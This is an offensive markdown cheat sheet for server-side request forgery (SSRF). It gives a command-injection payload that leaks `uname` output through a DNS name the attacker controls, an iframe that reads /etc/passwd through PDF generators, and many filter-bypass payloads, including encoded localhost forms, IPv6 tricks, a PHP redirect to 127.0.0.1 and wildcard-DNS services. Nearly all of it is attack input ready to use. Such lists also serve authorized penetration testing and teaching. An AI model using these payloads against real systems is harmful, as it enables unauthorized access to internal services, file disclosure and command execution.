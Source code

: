 # SSRF


## RCE
If you have SSRF, test for RCE with this payload:

```
`uname`.mydomain.com
```

## Trigger error
* Use `#` as url when testing for SSRF in order to trigger errors and maybe read stacktraces

## Blacklist bypass
* Pass URL encoded parameters in order to achieve parameter injection
* Use `<iframe src="file:///etc/passwd>` with PDF generators
* URL encode `localhost` to `%6c%6f%63%61%6c%68%6f%73%74`
* Change HTTP version from `1.1` to `0.9` and remove the Host header
* Try `127.0.0.1::ffff::` or `::ffff:127.0.0.1`
* Mix case `LoCaLhOsT`
* Embed credentials `http://attacker@localhost`
* Use URL fragments `http://attacker#localhost`
* Add directory `http://localhost/random`
* Try using an IPv6 address as sometimes blacklists do not block them

### Redirect
Make a request to a page that you control with the following code:

```php
<?php header("location: http://127.0.0.1"); ?>
```

### DNS
Use these tools to bypass internal hostnames
	* [nip.io](http://nip.io)
	* [xip.io](http://xip.io/)
  * [1u.ms](http://1u.ms/)
	* [sslip.io](https://sslip.io/)

### Encoding
* Hex `0x7f.0x0.0x0.0x1`
* Octal `0177.0.0.01`
* Url `http://%31%32%37%2e%30%2e%30%2e%31`
* Dword [`http://2130706433`]
* Remove spaces `0177000000000001`
* Mix them `0177.0.0.0x1`
* `http://31.10.590` converts to [`http://31.10.2.78/`] because (2\*256)+78
* Convert the IP address to binary representation like `01111111.00000000.00000000.00000001` and after removing the dots convert the number in decimal and you get `2130706433`
* Add zeroes `http://127.0.0000000.1/`
